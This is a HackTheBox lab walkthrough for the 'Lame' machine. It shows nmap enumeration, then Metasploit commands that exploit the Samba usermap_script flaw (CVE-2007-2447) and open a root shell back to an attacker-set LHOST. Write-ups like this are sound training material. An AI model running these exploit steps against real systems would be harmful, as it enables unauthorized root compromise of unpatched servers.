

# Lame — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Nmap scan reveals an ancient, vulnerable version of Samba (`smbd 3.0.20-Debian`) running on port 445 → Enumeration confirms SMB is accessible → Searching Exploit-DB identifies CVE-2007-2447 (`usermap_script`) → Exploiting the Samba vulnerability via Metasploit yields a direct root shell.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn 10.10.10.3
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 Debian |
| 139 | NetBIOS | Samba smbd 3.X - 4.X |
| 445 | SMB | Samba smbd 3.0.20-Debian |
| 3632 | distccd | distccd v1 ((GNU) 4.2.4) |

The target is running several notoriously vulnerable services, including `vsftpd 2.3.4`, `distccd v1`, and `Samba 3.0.20`. 

While FTP allows anonymous login, listing the directories reveals nothing of use. We test public exploits for `distccd` (CVE-2004-2687), but they fail to return a reverse shell. 

We shift our focus to the SMB service.

---

## Exploitation — Samba 3.0.20 (CVE-2007-2447)

Initial enumeration of SMB using `smbclient` confirms that we can connect and list some temporary shares without authentication. However, the most critical finding is the specific version of Samba running: `Samba smbd 3.0.20-Debian`.

Using `searchsploit` against this version reveals a massive, well-known vulnerability:

```bash
searchsploit samba 3.0.20
```



This version is vulnerable to the "Username Map Script" Command Execution vulnerability (CVE-2007-2447). The flaw allows attackers to execute arbitrary commands by specifying a malicious shell metacharacter injection in the username field during authentication.

Because the vulnerable service runs as root by default, successful exploitation grants an immediate root shell without requiring any further privilege escalation.

We launch the Metasploit Framework to automate the attack:

```bash
msfconsole
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
msf exploit(multi/samba/usermap_script) > set LHOST 10.10.14.32
msf exploit(multi/samba/usermap_script) > exploit
```

Metasploit sends the crafted payload during the SMB negotiation phase. 

A command shell session is opened. Running `whoami` confirms we are already the highest privileged user.

We are `root`. 🎉

---

## Key Takeaways

- **Legacy Services:** "Lame" is the very first machine ever released on HackTheBox. It highlights the extreme danger of running unpatched, end-of-life software. Vulnerabilities like CVE-2007-2447 are trivial to exploit and provide immediate system compromise.
- **CVE-2007-2447:** The vulnerability stems from insecurely passing user-supplied input (the username) directly to `/bin/sh` without sanitizing shell metacharacters (like backticks `` ` `` or dollar-parentheses `$()`). 

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*